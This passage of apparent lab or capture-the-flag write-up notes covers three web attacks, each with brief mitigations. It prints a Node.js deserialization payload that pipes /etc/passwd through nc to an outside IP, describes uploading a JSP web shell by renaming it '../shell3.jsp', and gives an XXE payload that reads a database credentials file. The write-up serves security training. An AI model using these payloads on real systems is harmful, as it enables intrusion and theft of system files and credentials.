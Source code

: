 **Attack:**   
Serialization / Send content of /etc/passwd over port 80 to the hacker by entering the following to the search field:

```text
_$$ND_FUNC$$_function (){require('child_process').exec('cat /etc/passwd |nc 10.201.1.118 80');}()
```

The hacker is able to see the content sent by the victim in his shell \(See screenshot\)

**Mitigation**

* Secure application / secure programming \(data input validation\)
* Patch framework and/or use middleware to validate user-input
* WAF-Setup could help 

## 2503 PLUpload Challenge

**Security Problem:**   
The fileupload script is running on a linux/unix like webserver with a tree-based directory structure. The folder which the uploaded files will be placed is not secure enough

**Attack:**   
Uploaded shell3.jsp with the uploaded but intercepted the request with ZAP, changed the filename to ../shell3.jsp. Two dots with slash \(../\) in linux/unix environments means one directory up. So the script is uploaded to an public directory where we can execute it. Then used Firefox to access the script, which ran and we're able to navigate to /var/gold.txt.

See screenshot

**Mitigation:**

* Hardending/Securing the PLUpload script/application
* Secure the webserver
* Use of Sandbox \(so the uploaded files are seperate and not close in the tree to execute\)

## 2600 Web Security: XML Path Traversal

**Security Problem:**   
Same as before, the problem is the tree structure of a linuxed based operating systems and the possibility \(here xml\) to search for specific files and their content.

**Attack:**   
Step by step search through the tree for files until we find something more intersting as credentials for users and database. Used ZAP to replay the search and ended up with the following query:

```text
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE query [ <!ENTITY value SYSTEM "/opt/applic/tomcat/webapps.properties/mysql.properties"> ]>
<query>
  <bell-name>&value;</bell-name>
  <bell-description></bell-description>
</query>
```
